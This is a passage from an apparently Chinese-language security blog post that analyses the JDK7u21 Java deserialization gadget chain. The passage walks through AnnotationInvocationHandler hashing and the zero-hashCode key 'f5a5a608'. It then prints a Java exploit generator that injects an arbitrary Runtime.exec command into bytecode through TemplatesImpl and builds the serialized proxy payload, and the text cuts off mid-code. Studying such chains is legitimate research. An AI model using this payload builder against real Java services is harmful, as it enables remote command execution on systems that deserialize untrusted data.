 ![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190927183035.png)

继续跟进：

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190927183154.png)

这里会遍历中介类的`memberValues`属性，对它们的key、value按照一定规则运算然后相加，就得到了代理类的hash，运算规则是：

```
127 * (var3.getKey().hashCode() ^ memberValueHashCode(var3.getValue())
```

如果`var3.getKey().hashCode()`为0，那么hash就是`memberValueHashCode(var3.getValue())`的值。

跟进`memberValueHashCode`方法：

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190927183557.png)

如果value不是数组，那么直接返回value的hashcode。

综上，能够调用到`equals`方法的条件是，将代理类的`memberValues`设置为只有一个Entry的map，key.hashCode为0，value为恶意类。

最后在`jdk1.7.0_21.jdk/Contents/Home/src.zip!/java/util/HashSet.java`的`readObject`方法中调用了`put`方法：

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190927155101.png)

到这里整个利用链就梳理完了，构造exp如下：

```java
public static Object getObject(String command) throws Exception {
    //操作字节码构造恶意类
    ClassPool classPool = ClassPool.getDefault();
    classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
    CtClass ctClass = classPool.getCtClass(Jdk7u21.class.getName());
    String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
      command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"", "\\\"") +
      "\");";
    ctClass.makeClassInitializer().insertBefore(cmd);
    ctClass.setName("EvilClass" + System.nanoTime());
    ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
    byte[][] _bytecodes = new byte[][]{ctClass.toBytecode()}; //获取字节码

    TemplatesImpl templates = TemplatesImpl.class.newInstance();
    Reflections.setFieldValue(templates, "_bytecodes", _bytecodes);
    Reflections.setFieldValue(templates, "_name", "Necessary" + System.nanoTime()); //_name不为null即可

    Map map = new HashMap();
    //f5a5a608是一个神奇的字符串，它的hashCode为0；
    //value是恶意类，保证与上一个传入的value的hashCode相同
    //但是这里先放入一个随机值，等所有类声明完毕之后再替换为恶意类
    //这样做的目的是防止利用链提前触发而导致生成的payload失效
    //可以做一个实验，如果这里是map.put("f5a5a608", templates);，那么在序列化的过程中命令就会执行
    map.put("f5a5a608", "foo");

    Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler"); //中介类无法直接声明，需要反射调用
    Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
    constructor.setAccessible(true);

    InvocationHandler ih = (InvocationHandler) constructor.newInstance(Target.class, map); //实例化中介类
    Reflections.setFieldValue(ih, "type", Templates.class); //equalImpl中获取type属性的所有方法并调用
    Templates proxy = (Templates) Proxy.newProxyInstance(InvocationHandler.class.getClassLoader(), new Class[] {Templates.class}, ih); //实例化代理类

    LinkedHashSet linkedHashSet = new LinkedHashSet(); //必须使用LinkedHashSet，否则传入的元素顺序会乱
    linkedHashSet.add(templates); //先放恶意类
    linkedHashSet.add(proxy); //再放代理类
  	map.put("f5a5a608", templates); //将真正的恶意类放入map中
```